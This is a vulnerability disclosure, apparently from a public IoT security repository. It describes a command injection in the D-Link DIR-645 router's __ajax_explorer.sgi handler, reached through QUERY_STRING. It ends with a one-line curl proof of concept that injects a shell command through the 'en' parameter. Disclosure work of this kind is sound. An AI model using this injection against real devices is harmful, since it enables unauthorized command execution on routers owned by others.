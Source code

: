 Vendor of the products:D-Link

Reported by: 　　　WangJincheng(wjcwinmt@outlook.com) && FeiXincheng(FXC030618@outlook.com) && ShaLetian(ltsha@njupt.edu.cn) from X1cT34m

Affected products:D-Link DIR-645

Vendor Homepage:  https://www.dlink.com/en/consumer

Vendor Advisory:  https://tsd.dlink.com.tw/ddgo


# summarize

`D-Link DIR-645` was discovered to contain a command injection vulnerability when operate the file `__ajax_explorer.sgi`. This vulnerability allows attackers to execute arbitrary commands via the `QUERY_STRING` parameter.

# Vulnerability description

We can see that the os will get `QUERY_STRING` in `scandir_main`, and pass it to `sub_410AD4`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/1.png)

In `sub_410AD4`, it calls `sub_410434`

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/2.png)

In `sub_410434`, it contains a command injection.

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/3.png)

before the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/4.png)

after the attack

![image-20220316191407126](https://github.com/fxc233/iot-vul/blob/main/D-Link/DIR-645/img/5.png)

# poc

	curl "http://192.168.0.1/portal/__ajax_explorer.sgi?action=umnt&path=path&where=here&en=;echo%20X1cT34mpwner%20>FXC;"
